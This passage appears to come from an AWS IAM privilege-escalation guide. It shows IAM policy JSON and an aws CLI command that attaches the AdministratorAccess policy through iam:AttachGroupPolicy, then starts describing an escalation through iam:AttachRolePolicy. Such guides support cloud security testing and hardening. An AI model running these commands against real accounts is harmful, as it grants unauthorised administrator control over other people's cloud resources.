```json
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "VisualEditor0",
      "Effect": "Allow",
      "Action": "iam:AttachGroupPolicy",
      "Resource": "arn:aws:iam::*:group/*"
    }
  ]
}
```

The attacker can issue the following command to attach the AWS managed AdministratorAccess policy to their user account:

```bash
➜ aws iam attach-group-policy --group-name privesc8 --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc
```

The attacker now has administrator access to the AWS account.

## 09 - iam:AttachRolePolicy

### Description
Users with the iam:AttachRolePolicy can attach managed policies to roles, potentially allowing them to attach policies with permissions that they don't currently have to a role that they can assume.

### Requirements
* The user is allowed to assume a role in the target AWS account.
* The user is allowed to attach managed policies to the role that they can assume.
* Alternatively, the user could attach a policy to a role that they can otherwise access. For instance, if a role is attached to an EC2 instance that they can SSH into, and the user can attach a managed policy to that role, then they can escalate privileges similar to the method described under method 3: “iam:PassRole and ec2:RunInstances."

### Example
In this example, our attacker belongs to a third-party AWS account, but is authorized to assume a role in the target AWS account. The role that the attacker can assume only has the iam:AttachRolePolicy permission:

```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Sid": "VisualEditor0",
            "Effect": "Allow",
            "Action": "iam:AttachRolePolicy",
            "Resource": "arn:aws:iam::*:role/*"
        }
    ]
}
```
